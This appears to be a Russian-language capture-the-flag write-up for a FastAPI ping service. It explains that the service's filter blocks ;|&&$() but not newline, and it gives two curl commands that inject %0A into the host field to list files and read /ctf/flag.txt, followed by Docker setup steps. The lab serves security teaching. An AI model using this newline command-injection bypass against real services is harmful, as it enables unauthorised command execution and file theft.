 ### Описание инфрастуктуры
1) backend:
    - fastapi
2) frontend:
    - html


### Цель задания:
вывести флаг flag.txt
### Решение:
1) По консольному выводу понимаем что программа скорее всего просто выполняет команду ping <наши данные> и скорее всего здесь есть command injection
2) Обращаем внимание на заблокированные символы ;|&&$()
    все эти символы можно было бы использовать для выполнения посторонних команд, но есть еще \n - newline которые WAF не блокирует
    \n ->(Url encode чтобы все корректно работало) = %0A
3) 
```
curl -X POST http://localhost:8000/ping -d "host=8.8.8.8%0Als"
```
выводим список файлов директории находим ctf и в ней же flag.txt

4) 
```
curl -X POST http://localhost:8000/ping -d "host=8.8.8.8%0Acat /ctf/flag.txt"
```
Через браузерную форму \n не сработает он заменится на пробел


### Гайд по развертыванию
1) поменять порты если это требуется в Docker-compose.yml, Dockerfile
2) docker-compose up --build
